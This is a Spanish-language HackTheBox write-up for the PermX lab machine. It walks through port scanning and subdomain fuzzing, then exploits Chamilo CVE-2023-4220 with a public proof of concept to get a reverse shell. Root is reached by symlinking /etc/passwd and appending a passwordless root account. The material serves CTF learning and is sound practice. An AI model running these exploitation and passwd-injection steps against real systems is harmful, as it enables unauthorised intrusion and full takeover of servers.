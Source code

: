 ```yaml
---
title: Writeup de la máquina PermX
date: 2024-08-03
categories: [WRITEUPS, HackTheBox]
tags: [chamilo]  # TAG names should always be lowercase
---
```


![picture](/assets/images/hackthebox/permx1.png)

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que se va a realizar es un escaneo de puertos con *NMAP* para comprobar cuáles de ellos están abiertos.

```bash
nmap -p- --open -T5 -sT 10.10.11.23 -n -Pn -v
```

![picture](/assets/images/hackthebox/permx2.png)

A continuación, añadiremos al */etc/hosts* la dirección *IP* de la máquina, junto con el dominio, para que resuelva el nombre de dominio.

![picture](/assets/images/hackthebox/permx3.png)

Una vez hecho esto, vamos a entrar en la página web.

![picture](/assets/images/hackthebox/permx4.png)

Navegando por la página web no encontramos nada interesante, con lo que realizaremos Fuzzing para encontrar subdominios.

```bash
ffuf -c -u hhtp://permx.htb/ -H "Host: FUZZ.permx.htb" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18
```

![picture](/assets/images/hackthebox/permx5.png)

Encontramos el subdominio **lms**.

A continuación, hay que añadir el subdominio al */etc/hosts* como hemos hecho antes.

![picture](/assets/images/hackthebox/permx6.png)

Y en el subdominio, nos encontramos un panel de autenticación de **Chamilo**.

![picture](/assets/images/hackthebox/permx7.png)

---

## **Explotación**

Con la extensión de *Wappalyzer*, podemos ver que la *versión* de **Chamilo** es la **1**, una versión muy antigua.

![picture](/assets/images/hackthebox/permx8.png)

Navegando por internet encontramos [**CVE-2023-4220**](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc), con el cual podemos ejecutar un **RCE**(*Remote Code Execution*) sin autenticación, nos descargamos e instalamos el repositorio de GitHub como nos indican.

Ejecutamos el script **main.py** junto con el dominio para comprobar si es vulnerable.

```bash
python3 main.py -u http://lms.permx.htb -a scan
```

![picture](/assets/images/hackthebox/permx9.png)

![picture](/assets/images/hackthebox/permx10.png)

Y a continuación nos permite crear tanto una **Web Shell** (*para poder ejecutar comandos desde el navegador*), como una **Reverse Shell** (*para enviarnos una Shell interactiva a nuestra máquina local*), en mi caso, crearé una **Reverse Shell**, para ello nos ponemos en escucha con un **Listener** con **ncat** por un puerto (*4444*) en nuestra máquina local, y una vez lo tengamos, ejecutamos el script.

- Listener

```bash
nc -nlvp 4444
```

- Ejecución del script

```bash
python3 main.py -u http://lms.permx.htb -a revshell
```
Indicamos nuestra dirección IP y el puerto por el que estamos escuchando con *ncat*.

![picture](/assets/images/hackthebox/permx11.png)

Y obtenemos una **Shell interactiva** con el usuario *www-data*.

![picture](/assets/images/hackthebox/permx12.png)

---

## **Escalada de privilegios**

Buscando dentro de la máquina, en el archivo de configuración */var/www/chamilo/app/config/**configuration.php*** encontramos una contraseña de la base de datos.

![picture](/assets/images/hackthebox/permx13.png)

Si comprobamos el archivo */etc/passwd*, podemos ver que hay un usuario llamado ***mtz***, vamos a probar a conectarnos mediante **SSH** usando la contraseña encontrada.

Y obtenemos acceso.

![picture](/assets/images/hackthebox/permx14.png)

Primera **flag** encontrada en el directorio personal.

![picture](/assets/images/hackthebox/permx15.png)

A continuación, vamos a intentar escalar los máximos privilegios.

Al mostrar los privilegios de **SUDO** que tiene el usuario ***mtz***, comprobamos que no necesita usar contraseña para ejecutar el script *acl.sh*.

![picture](/assets/images/hackthebox/permx16.png)

El script proporciona una forma de añadir permisos específicos a un archivo para un usuario determinado, siempre y cuando el archivo esté dentro del directorio */home/mtz/*.

![picture](/assets/images/hackthebox/permx17.png)

A continuación, crearemos un link simbólico del archivo */etc/passwd*, a un archivo llamado "*prueba*" en el directorio */home/mtz*, y ejecutaremos el script para darle **permisos** de **lectura** y **escritura** al archivo creado.

```bash
ln -s /etc/passwd /home/mtz/prueba
```

```bash
sudo /opt/acl.sh mtz rw /home/mtz/prueba
```

![picture](/assets/images/hackthebox/permx18.png)

A continuación, introduciremos un usuario nuevo sin contraseña y con la bash de **root**.

```bash
echo "pwned::0:0:root:/pwned:/bin/bash" >> /home/mtz/prueba
```

![picture](/assets/images/hackthebox/permx19.png)

Migramos de usuario a "**pwned**", y entramos como "**root**".

![picture](/assets/images/hackthebox/permx20.png)

Y en el directorio personal de **root**, obtenemos la segunda **flag**.

![picture](/assets/images/hackthebox/permx21.png)

![picture](/assets/images/hackthebox/permx22.png)